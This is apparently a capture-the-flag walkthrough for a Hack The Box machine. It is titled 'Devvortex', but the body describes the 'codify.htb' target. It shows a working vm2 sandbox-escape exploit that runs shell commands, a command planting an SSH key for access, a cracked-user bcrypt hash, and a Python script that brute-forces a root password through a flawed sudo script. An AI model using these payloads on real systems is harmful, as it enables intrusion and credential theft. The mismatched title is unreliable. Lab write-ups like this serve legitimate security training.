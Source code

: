 # Solver for Devvortex

## Recon

### Check library/framework/cms version that the server use

The Server maybe using <https://github.com/patriksimek/vm2/releases/tag/3.9.16> , you can see in the about page <http://codify.htb/about>

### Check CVE/Vuln

In the security tab of github, VM2 Was identify vuln for RCE Bypass ( previously if we didnt use this bypass we cant RCE using node.js ) <https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244>

```js
const {VM} = require("vm2");
const vm = new VM();

cmd = 'urpayloadcommandinjection'
const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync(cmd);
}
`

console.log(vm.run(code));
```

alright we already craft the exploit, lets go into the exploit section

## Exploit

### Check if the exploit successfully

Now we put the payload 'id' to get the username of the user currently and we got output 'svc', alright and we know that the port 22 (ssh) is open so we can put our ssh public key in there and gaining ssh access

### Gaining SSH Access

Now we go to our machines and copy our ssh public key, in mine is cat ~/.ssh/id_rsa.pub , if you dont have you can generate a new one. then copy and put in the server, with payload

```sh
mkdir ~/.ssh; echo "yourpublickeypastehere" > ~/.ssh/authorized_keys;
```

### Getting Access to user joshua

We go to /var/www/ and we see all directory, one of the directory contains .db file. that is contacts , we strings the db and we got joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2 . Now we can crack the pass using john

### Crack The Pass of joshua

we can crack using this command and we got the password using rockyou lists

## Privilage Escalation TO ROOT

Now we escalate with sudo -l now we can see if the program call backup db call. and its the sh file its vuln to bruteforcing the password /opt/scripts/mysql-backup.sh

```sh
DB_USER="root" 
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then     # -- This Vuln because this check contains not validated full the strings. only if contains will pass so we can do bruteforce in here 
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi
```

we can do bruteforce with this script

```py
import subprocess
import string

combination = string.ascii_letters + string.digits
password = ""
while True:
    for char in combination:
        command = f"echo '{password+char}*' | sudo /opt/scripts/mysql-backup.sh"
        proc = subprocess.run(command,shell=True,stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)
        if "Password confirmed!" in proc.stdout:
            password += char
            print(password)
            break
    
print(password)
```

 we obtain the password and go to the /root and obtain the flag
